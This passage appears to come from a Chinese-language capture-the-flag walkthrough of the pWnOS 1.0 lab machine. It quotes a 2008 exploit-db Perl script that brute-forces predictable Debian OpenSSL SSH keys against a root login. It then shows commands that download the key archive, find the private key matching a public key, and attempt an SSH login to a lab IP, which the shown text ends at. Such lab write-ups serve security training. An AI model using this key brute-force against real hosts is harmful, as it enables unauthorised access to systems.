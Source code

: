     4. Run the perl script and give it the location to where you extracted
    the bzip2 mentioned.
    
    #!/usr/bin/perl
    my $keysPerConnect = 6;
    unless ($ARGV[1]) {
       print "Syntax : ./exploiter.pl pathToSSHPrivateKeys SSHhostToTry\n";
       print "Example: ./exploiter.pl /root/keys/ 127.0.0.1\n";
       print "By mm@deadbeef.de\n";
       exit 0;
    }
    chdir($ARGV[0]);
    opendir(A, $ARGV[0]) || die("opendir");
    while ($_ = readdir(A)) {
       chomp;
       next unless m,^\d+$,;
       push(@a, $_);
       if (scalar(@a) > $keysPerConnect) {
          system("echo ".join(" ", @a)."; ssh -l root ".join(" ", map { "-i
    ".$_ } @a)." ".$ARGV[1]);
          @a = ();
       }
    }
    
    5. Enjoy the shell after some minutes (less than 20 minutes)
    
    Regards,
    Markus Mueller
    mm@deadbeef.de
    
    # milw0rm.com [2008-05-15]                     
    ```

-   根据提示下载压缩包`wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/5622.tar.bz2`

-   将文件解压后根据提示进入文件夹并进行搜索与公钥相匹配的私钥

-   ```shell
    └─$ grep -lr "AAAAB3NzaC1yc2EAAAABIwAAAQEAxRuWHhMPelB60JctxC6BDx" ./rsa/2048/
    ./rsa/2048/dcbe2a56e8cdea6d17495f6648329ee2-4679.pub
    
    参数说明：
    	-l 搜索到结果后列出文件名
    	-r 递归搜索
    ```

-   将私钥文件保存到当前目录来进行登陆测试

-   ```shell
    └─$ cp rsa/2048/dcbe2a56e8cdea6d17495f6648329ee2-4679 ./                        
                                                                                        
    ┌──(kali㉿kali)-[~/Documents/WalkThrough/pWnOS1.0]
    └─$ ssh -i dcbe2a56e8cdea6d17495f6648329ee2-4679 obama@192.168.2.138                
    Unable to negotiate with 192.168.2.138 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss
                                                                                        